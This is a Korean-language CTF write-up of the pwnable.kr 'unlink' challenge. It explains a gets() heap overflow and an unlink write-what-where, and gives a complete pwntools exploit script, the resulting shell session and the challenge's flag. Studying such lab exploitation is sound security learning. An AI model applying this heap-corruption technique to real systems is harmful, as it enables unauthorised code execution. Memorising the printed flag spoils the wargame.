 ```yaml
---
layout: post
title:  "Pwnable.kr unlink 풀이"
date:   2019-01-24 15:13:49 +0900
categories: writeup
tags: wargame pwnable pwnable.kr
image: /assets/2019-01-24-pwnable-kr-unlink/1.png
---
```


# unlink - 10 pt

## 문제

```
Daddy! how can I exploit unlink corruption?

ssh unlink@pwnable.kr -p2222 (pw: guest)
```

SSH로 연결해 들어가 보면 읽기 권한이 없는 `flag` 파일, `unlink.c` 소스코드와 `unlink` 바이너리가 주어져 있습니다. 이 문제의 목표는 `unlink` 바이너리에서 `shell`함수를 호출해 쉘을 따는 것 같네요.

## 풀이

### 개요

주어진 소스코드를 보면서 문제의 개략적인 구조를 파악해 봅시다.

```c
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;
```

`OBJ`란 구조체가 정의되어 있습니다. 구조체 포인터인 `fd`와 `bk`가 있고 8바이트를 담을 수 있는 공간이 있네요. `fd`와 `bk`의 용도는 뒤에서도 나오겠지만 여러 개의 `OBJ` 구조체를 하나의 연결 리스트처럼 이을때 사용하는 포인터랍니다.

```c
void shell(){
        system("/bin/sh");
}
```

딱 봐도 이 함수로 실행흐름을 바꿔서 쉘을 따는 것 같습니다. 참고로 `unlink` 바이너리의 권한은 `flag`파일을 읽을 수 있도록 해줍니다.

```c
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```

`unlink` 바이너리의 메인 함수입니다. `OBJ` 구조체 3개 (A, B, C)를 생성한 후, A의 fd를 B로, B의 fd를 C로 연결한 다음 C의 bk를 B로, B의 bk를 A로 연결하고 있습니다. 그 다음 `gets` 함수로 A의 메모리 공간에 데이터를 입력합니다. 여기서 Heap Overflow 가 발생해서 뒤에 오는 B 구조체와 C 구조체의 메모리 공간을 마음대로 변조할 수 있게 됩니다. 그 다음 B를 `unlink` 함수로 각 구조체간의 연결을 끊습니다. `unlink` 함수를 좀더 자세히 보도록 할까요.

```c
void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
```

`unlink` 함수에서는 파라미터로 주어진 `OBJ` 구조체 블록의 연결을 끊으면서 자신의 `fd`와 `bk`를 가르키고 있던 두 구조체로 연결을 시켜주네요. 결국 끊어진 구조체는 고립되게 됩니다. 그림으로 보면 이해가 더 쉬울 것 같네요. 발로 그림을 그렸나 의심할 수 있는데 손으로 그렸습니다 하하.

![1](/assets/2019-01-24-pwnable-kr-unlink/1.png)

### 공략 방법

`unlink` 바이너리에서 Stack 영역 주소와 Heap 영역 주소를 알려주고 있습니다. 이 문제를 접하고 하루정도 잡고 늘어지고 있었는데요, 그동안 여러가지 삽질을 시도해 봤습니다.

- `B.fd`에 `main` 함수 스택 프레임의 리턴 주소를 넣고, `B.bk`에 `shell` 함수의 주소를 넣어서 실행흐름을 바꾼다.

안타깝게도 `unlink` 함수를 호출하면 하면 `B.fd` 주소에 있는 값과 `B.bk` 주소에 있는 값이 각자의 주소로 바뀌게 됩니다. 그래서 `main` 함수 스택 프레임의 리턴 주소는 정상적으로 바꿀수 있습니다만 `shell` 함수의 주소로 가서 쓰기 작업을 할 수 없는 코드 영역에 데이터를 쓰려고 하기 때문에 Segmentation Fault가 발생하면서 프로그램이 죽습니다. (RIP)

- `A.buf`에 `jmp $shell`과 같은 어셈 코드를 넣고 위처럼 실행흐름을 Heap으로 넘긴다.

위와 비슷한 맥락의 문제가 발생하는데 어셈 코드를 넣는다고 해도 나중에 `main` 함수 주소로 덮어 씌워지게 됩니다. 그래서 프로그램이 이상해 지다가 실행할 수 없는 코드를 만나고 죽게 되죠. 게다가 바이너리에 NX가 걸려있어서 어셈 코드가 실행을 될지 모르겠네요. (알고보니 실행 됐습니다)

이 눈물나는 삽질과 노가다를 하루 종일 하다가 깨달은 건 `shell` 함수를 Heap에 저장해 놓고 리턴 주소를 직접적으로 `shell` 함수 주소로 바꾸는 것을 어렵다는 점, 그리고 이를 위해서 `shell` 함수를 간접적으로 참조하게 하는 로직을 찾아야 한다는 점입니다. 아무리 봐도 어느부분을 사용해야 되려나 봤는데 눈 씻고 찾아봐도 없어서 여러 블로그 눈팅했는데요, [이 블로그](https://go-madhat.github.io/pwnable.kr-unlink/)를 살짝살짝 읽다가 깨달음을 얻었습니다.

```assembly
0x0804852f <+0>:     lea    ecx,[esp+0x4]
0x08048533 <+4>:     and    esp,0xfffffff0
0x08048536 <+7>:     push   DWORD PTR [ecx-0x4]
0x08048539 <+10>:    push   ebp
0x0804853a <+11>:    mov    ebp,esp
...
0x080485fa <+203>:   mov    eax,0x0
0x080485ff <+208>:   mov    ecx,DWORD PTR [ebp-0x4]     <- 여기, 결국 EBP-0x4 값만 컨트롤 하면 EIP를 변조할 수 있게 된다.
0x08048602 <+211>:   leave
0x08048603 <+212>:   lea    esp,[ecx-0x4]               <- 여기
0x08048606 <+215>:   ret
```

처음 어셈블리 코드를 봤을 때 왜 저런 방식으로 함수 프롤로그를 여는지 궁금해서 구글에 쳐봤는데 컴파일러의 속마음을 아는 사람은 없었는지 이유를 찾지 못했습니다. 그러나 중요한 점은 이게 리턴 주소를 단순히 스택에 집어 넣고 `leave ret`으로 돌아가는 것이 아니라 `ECX` 범용 레지스터를 사용해서 간접적으로 참조를 시킨다는 점입니다. 왜 이렇게 컴파일러가 하는지에 대한 이유는 아직도 찾지 못했습니다. (주소 정렬하려고 이렇게 했나) 

간단하게 요약하자면 `lea esp,[ecx-0x4]` 코드를 활용하면 `shell` 함수의 주소를 간접적으로 가져올수 있습니다! :D

위에서 수행하려고 했던 방법의 한계점은 이랬죠.

- 읽기 영역인 코드 영역을 침범했다.
  - 이번에는 Heap과 Stack에 있는 값을 변조할 것이기 때문에 코드 영역을 침범하지 않습니다!
- 값이 서로 뒤바뀌어서 직접적으로 값을 참조할 수 없다.
  - `ESP`를 변조하는 값이 `[ecx-0x4]`이기 때문에 서로 뒤바뀐 값이 들어있는 영역이 아니라 그 영역에서 4바이트 전의 영역을 사용할 수 있다. 여기에 `shell` 함수의 주소를 넣고 이쪽으로 실행흐름을 돌리면 되겠네요.

아래 코드는 위에서 설명한 방법을 사용하는 익스플로잇 코드입니다.

```python
from pwn import *

p = process("/home/unlink/unlink")
d = p.recvuntil("get shell!")
print d

# 문제에서 주어진 Stack, Heap, Shell 함수의 주소를 가져온다.
stack = int(d.split(":")[1].split()[0].strip(),16)
heap = int(d.split(":")[2].split()[0].strip(),16)
shell = "\xeb\x84\x04\x08"

# 페이로드를 구성한다.
payload = ""
payload += shell+'A'*12         # A.buf[8] = Shell 함수 4바이트 + "A"*4
payload += p32(stack + 0xc)     # B.fd = EBP-0x4 위치를 주어진 Stack 주소에서 계산해 넣는다.
payload += p32(heap + 0xc)      # A.buf+4 = ecx-0x4를 참조하기 때문에 A.buf+4 주소를 넣는다.

print repr(payload)

p.send(payload)
print p.recvline()
p.interactive()
```

실행하면 매끄럽게 따지는 마술을 볼수 있습니다. 와우.

```bash
unlink@ubuntu:~$ python /tmp/nvm.py
[+] Starting local process '/home/unlink/unlink': Done
here is stack address leak: 0xff974b84
here is heap address leak: 0x929e410
now that you have leaks, get shell!
'\xeb\x84\x04\x08AAAAAAAAAAAA\x90K\x97\xff\x1c\xe4)\t'


[*] Switching to interactive mode
$ ls
flag  intended_solution.txt  unlink  unlink.c
$ cat flag
conditional_write_what_where_from_unl1nk_explo1t
```

Heap 영역에서 발생하는 여러가지 취약점 중 간략화된 `Double Free Bug`를 사용해서 풀도록 만든 문제였습니다. 더 많은 Heap 영역에서 발생하는 취약점을 알고 싶으시다면 [블랙펄시큐리티 블로그 글](https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/)을 한번 읽어보세요.

---

<sub>
더 많은 문제풀이는 제 [리포](https://github.com/cxbt/Writeup)에서 확인하실수 있습니다.
</sub>
